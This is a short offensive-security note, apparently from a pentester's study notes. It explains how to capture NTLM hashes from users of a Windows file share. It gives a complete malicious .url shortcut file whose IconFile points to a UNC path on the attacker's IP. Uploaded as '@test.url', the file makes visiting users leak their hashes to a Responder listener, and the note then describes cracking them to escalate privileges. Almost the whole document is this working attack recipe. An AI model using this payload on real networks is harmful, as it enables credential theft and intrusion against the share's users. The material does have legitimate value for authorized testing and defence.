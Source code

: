 
If we have compromised a particular user, and that user has any sort of share access, file share access.

- we can utilize this to capture more hashes via responder
- Go back and try to crack this hashes
- Then get a user with more advanced privileges

This attack requires a compromised user account or an open file share, where you can put a file in the share.

- The content of the file contains what is shown below, whereby we will replace `x.x.x.x` with our attacker IP

```html
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

- We can then save the file as `"@test.url"` and upload it to a share



